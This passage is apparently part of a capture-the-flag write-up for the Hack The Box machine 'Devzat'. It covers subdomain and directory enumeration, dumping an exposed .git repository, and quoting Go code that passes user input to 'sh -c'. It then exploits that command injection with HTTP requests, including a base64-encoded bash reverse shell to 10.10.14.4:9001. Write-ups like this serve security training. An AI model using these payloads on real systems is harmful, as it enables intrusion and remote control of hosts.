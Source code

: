 As the chat service does not provide any information, the web service can be checked for subdomains with **Gobuster**:
```
gobuster vhost -u http://devzat.htb/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt > devzat_vhost.txt
```
```
grep -v 'Status: 302' devzat_vhost.txt
```

The subdomain _pets.devzat.htb_ has the HTTP status code 200 and has to be added to the _/etc/hosts_ file to access it.
On there is a list of pets and it is possible to add pets in the input field.

Searching for hidden directories with **wfuzz**:
```
wfuzz -u http://pets.devzat.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt --hh 510
```

There is a _.git_ directory, that can be downloaded with [git-dumper](https://github.com/arthaud/git-dumper):
```
git-dumper http://pets.devzat.htb/ git
```

The git repository contains the source code of the application and there is a command injection vulnerability in the file _main.go_ when adding pets to the list:
```
func loadCharacter(species string) string {
        cmd := exec.Command("sh", "-c", "cat characteristics/"+species)
```

Sending a request and adding `sleep` command to the _species_ parameter:
```
POST /api/pet HTTP/1.1
Host: pets.devzat.htb
(...)

{
  "name":"test1",
  "species":"cat;sleep 2"
}
```

It takes more than two seconds until the response comes back and proofs command injection which can be used to gain a reverse shell.

Base64-encoding reverse shell command:
```
echo -n 'bash  -i >& /dev/tcp/10.10.14.4/9001  0>&1' | base64
```

Sending the request with the reverse shell command:
```
POST /api/pet HTTP/1.1
(...)

{
  "name":"test1",
  "species":"cat;echo -n YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNC85MDAxICAwPiYx | base64 -d | bash"
}
```
